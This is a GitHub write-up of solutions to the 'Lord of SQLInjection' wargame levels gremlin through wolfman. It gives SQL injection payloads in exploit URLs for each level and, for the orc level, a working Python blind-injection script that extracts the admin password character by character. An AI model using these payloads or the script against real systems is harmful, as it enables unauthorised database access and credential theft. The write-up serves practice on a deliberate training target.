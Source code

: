 # Lord of SQLInjection Write-ups

## gremlin

![gremlin](./pic/gremlin.PNG)

query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

__exploit :__ https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23

![gremlin](./pwned/gremlin.PNG)

<br>

## cobolt

![cobolt](./pic/cobolt.PNG)

query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```

__exploit :__ https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin'%23

![cobolt](./pwned/cobolt.PNG)

<br>

## goblin

![goblin](./pic/goblin.PNG)

__query1 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or no!=1
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or no!=1


__query2 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
 
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=char(97,100,109,105,110)

__query3 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or ord(id)=97
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or ord(id)=97

__query4 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=0x61646d696e

![goblin](./pwned/goblin.PNG)

## orc

___Blind SQL Injection!___

length: 8

![orc-length](./pic/orc-length.PNG)

__exploit__ : [orc.py](./code/orc.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID="your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "' or id = 'admin' and substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```

![pwned](./pwned/orc.PNG)

## wolfman

![wolfman](./pic/wolfman.PNG)

__query :__
```SQL
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw='||id='admin

![wolfman](./pwned/wolfman.PNG)

<br>